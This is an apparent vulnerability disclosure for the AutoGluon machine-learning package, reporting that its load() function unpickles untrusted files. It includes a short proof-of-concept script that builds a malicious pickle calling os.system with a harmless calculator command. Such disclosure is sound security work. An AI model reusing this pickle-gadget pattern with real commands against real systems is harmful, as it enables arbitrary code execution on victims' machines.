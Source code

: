 # Description

`AutoGluon` automates machine learning tasks enabling you to easily achieve strong predictive performance in your applications. With just a few lines of code, you can train and deploy high-accuracy machine learning and deep learning models on text, image, and tabular data. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`load()` function is used to load predictor files by unpickling them. It should only unpickle trusted files generated with `save()` function.

# Proof of Concept

# Installation
```bash
pip install --upgrade "mxnet<2.0.0"
pip install autogluon
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import autogluon

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

autogluon.load('payload')
```
